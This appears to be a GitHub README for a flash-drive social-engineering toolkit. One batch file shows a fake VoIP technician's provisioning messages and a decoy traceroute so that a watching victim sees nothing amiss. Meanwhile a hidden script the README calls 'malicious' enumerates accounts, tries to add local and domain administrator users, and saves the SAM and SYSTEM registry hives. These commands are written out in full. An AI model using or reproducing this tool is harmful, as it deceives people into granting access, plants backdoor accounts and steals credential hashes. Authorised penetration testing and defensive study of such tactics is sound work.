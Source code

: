 # soc-eng-batches
Batch files to show dummy activity while gathering system info and trying to create users. Useful during social engineering, if a target will let you use their system, but watches you do so.

# Setup
These batches are intended to be put on a flash drive.
* Place **run.bat** on your flash drive.
  - This batch displays the dummy information and creates the dummy log, while calling the malicious batch and directing its output.
  - This was written for the social engineering pretext of being a VoIP technician. Feel free to customize the ECHO messages and dummy commands to match your cover story.
* In the same directory level as **run.bat**, create the directories **drivers** and **logs**.
* Place **framework.cmd** in the **drivers** directory.
  - This is the malicious batch, which is called by run.bat.
  - See the variables **strLOCALUSER**, **strDOMUSER**, and **strMYPASS**. These values will be used when the malicious batch attempts to create local and domain user accounts.

# Usage
* Follow the setup instructions to load the batches onto your flash drive.
* Once you've convinced the target to let you use their computer, run *run.bat*.
  - Try to run it with elevated privileges, as some steps like exporting SAM and SYSTEM files will require them.

### What the target sees over your shoulder:
* A command prompt displays *"Provisioning VOIP SIP client..."*.
* After a few moments, the prompt displays "*Ready for connectivity test. Press any key to continue...*".
* A dummy log file will open, while a traceroute (`tracert -d -w 99 8.8.8.8`) shows in the command prompt.
  - This dummy log was created as **logs/[computername]-log.txt**.
  - This dummy log contains the output of `route print` and `tracert -d -w 99 8.8.8.8`, while ran in between the "Provisioning" and "Ready" messages.
  - The dummy log file can be useful for killing time while waiting for the batch to finish, which should normally only take a few moments.
* The prompt will close a few moments after the displayed traceroute finishes.

### What happens in the background:
* After the displayed traceroute is finished, **run.bat** called **drivers/framework.cmd**, while directing all of its ouput to **drivers/[computername]-log.txt**.
* **framework.cmd** does the following:
  - Echo the date and time
  - Get the username with `whoami`
  - Get password and account lockout settings with `net accounts`
  - Try to create a local user account (`net user /add [username] [password]`)
  - Try to add that local user to the local Administrators group (`net localgroup /add administrators [username]`)
  - Get a list of local users (`net user`)
  - Get a list of local admins (`net localgroup administrators`)
  - Try to create a domain user accounts (`net user /add [username] [password] /domain`)
  - Try to add that domain user to the Domain Admins group (`net group /add "domain admins" [username] /domain`)
  - Get a list of domain users (`net user /domain`)
  - Get a list of domain admins (`net group "domain admins" /domain`)
  - Get Group Policy settings (`gpresults /z`)
    - This sometimes takes a few moments.
  - Get routing information (`route print`)
  - Get services information (`net start`)
  - Attempt to get SAM and SYSTEM files
    - `reg save hklm\system [frameworkpath]/[computername]-system.dat`
    - `reg save hklm\sam [frameworkpath]/[computername]-sam.dat`
